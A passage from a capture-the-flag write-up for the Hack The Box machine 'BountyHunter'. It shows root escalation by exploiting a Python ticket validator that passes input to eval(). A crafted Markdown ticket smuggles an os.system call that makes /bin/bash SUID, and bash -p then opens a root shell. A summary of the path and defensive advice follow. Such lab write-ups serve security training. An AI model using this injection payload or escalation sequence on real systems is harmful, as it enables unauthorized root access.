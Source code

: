 ```python
if int(ticketCode) % 7 == 4:
    validationNumber = eval(x.replace("**", ""))
    if validationNumber > 100:
        return True
```

We can exploit this by creating a malicious Markdown:

```markdown
# Skytrain Inc
## Ticket to 
__Ticket Code:__
** 11 + 2 and __import__('os').system('chmod u+s /bin/bash')
```

Upload the file and execute:

```bash
sudo -u root python3.8 /opt/skytrain_inc/ticketValidator.py
```

Now `/bin/bash` is SUID root. Spawn root shell:

```bash
bash -p
```

![root_flag](GitHubv2/HackTheBox/EASY/BountyHunter/screenshots/root_flag.png)

✅ **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Identified SSH and HTTP.  
2. **XXE Injection** → Extracted `/etc/passwd`.  
3. **PHP Source Disclosure** → Found database credentials.  
4. **SSH Foothold** → Logged in as `development`.  
5. **Privilege Escalation** → Exploited insecure `eval()` in Python script to escalate privileges.  

---
## Defensive Recommendations

- Disable XML External Entities (XXE) in all XML parsers.  
- Never store credentials in source code; use environment variables or secret managers.  
- Apply least privilege to users and scripts.  
- Avoid using `eval()` in production code; sanitize input properly.  
